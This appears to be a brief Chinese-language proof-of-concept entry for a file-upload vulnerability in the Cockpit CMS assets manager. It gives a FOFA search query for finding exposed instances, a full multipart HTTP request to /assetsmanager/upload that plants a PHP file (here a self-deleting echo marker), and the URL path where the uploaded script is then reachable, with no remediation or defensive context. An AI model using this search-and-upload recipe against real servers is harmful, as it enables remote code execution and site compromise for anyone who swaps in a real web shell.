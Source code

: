 ## cockpit系统upload接口存在文件上传漏洞



## fofa

```
title="Authenticate Please!"
```



## poc

```
POST /assetsmanager/upload HTTP/1.1
Host: xxx.com
Content-Type: multipart/form-data; boundary=---------------------------36D28FBc36bd6feE7Fb3
Cookie: mysession=123451234512345123451234512345123
User-Agent: Mozilla/5.0 
Content-Length: 357

-----------------------------36D28FBc36bd6feE7Fb3
Content-Disposition: form-data; name="files[]"; filename="BE1a3e.php"
Content-Type: text/php

<?php echo "12131231231234e80test";unlink(__FILE__);?>
-----------------------------36D28FBc36bd6feE7Fb3
Content-Disposition: form-data; name="folder"


-----------------------------36D28FBc36bd6feE7Fb3--
```

![image-20240521201624377](./assets/202405212016419.png)

文件路径`http://127.0.0.1//storage/uploads/文件名.php`